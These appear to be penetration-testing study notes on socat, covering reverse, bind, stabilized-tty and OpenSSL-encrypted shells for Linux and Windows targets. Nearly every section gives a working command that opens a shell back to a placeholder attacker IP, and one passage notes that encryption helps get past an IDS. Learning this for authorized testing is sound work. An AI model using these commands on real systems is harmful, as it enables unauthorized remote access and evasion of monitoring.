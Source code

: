 Like netcat on steroids. It can do all of the same things, and many more. Socat shells are usually more stable than netcat shells out of the box. However, the two big catches are:

1. The syntax is more difficult
2. Netcat is installed on virtually every Linux distribution by default. Socat is rarely installed by default.


Both Socat and Netcat have .exe versions for use on Windows.

#### Socat Reverse Shells

Socat is a connector between two points similar to the portal gun from the Portal games.

The syntax for a basic reverse shell listener in socat: `socat TCP-L:<PORT> -`. This will work on either Linux or Windows and is equivalent to `nc -lvnp <PORT>`.

On Windows use to connect back: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`. The pipes option is used to force powershell or cmd.exe to use Unix style standard input and output.

The equivalent for Linux target: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`.

#### Socat Bind Shells

On a Linux target: `socat TCP-L:<PORT> EXEC:"bash -li"`.

On a Windows target: `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`.

Regardless of the target, we use `socat TCP:<TARGET-IP>:<TARGET-PORT> -` on the attacking machine to connect to the waiting listener.

- For a fully stable Linux tty reverse shell: `socat TCP-L:<PORT> FILE:'tty',raw,echo=0`
- To connect to the listener: `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`.
  - `EXEC:"bash -li"` creates an interactive bash session with the arguments: pty, stderr, sigint, setsid, and sane.
    - `pty` allocates a pseudo-terminal on the target - part of the stabilization process.
    - `stderr` makes sure that any error messages get shown in the shell (often a problem in non-interactive shells).
    - `sigint` passes any CTRL+C commands through into the sub-process, allowing us to kill commands inside the shell.
    - `setsid` creates the process in a new session.
    - `sane` stabilizes the terminal, attempting to 'normalize' it.

#### Socat Encrypted Shells

Socat is capable of creating encrypted shells - both bind and reverse. Encrypted shells cannot be spied on unless you have the decryption key and are often able to bypass an IDS as a result.

1. Generate a certificate in order to use encrypted shells on our attacking machine: `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`. This command creates a 2048 bit RSA key with a matching cert file, self-signed, and valid for just under a year. It will ask to fill information about the certificate and can be let blank, or filled randomly.
2. Now need to merge the two files into a single `.pem` file: `cat shell.key shell.crt > shell.pem`.
3. Set up our reverse shell listener with `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0`. This opens up an OPENSSL listener using the generated certificate and `verify=0` tells the connection to not bother trying to validate our certificate has been properly signed by a recognized authority.
   - The certificate must be used on whichever device is listening.
4. Connect back with `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`.
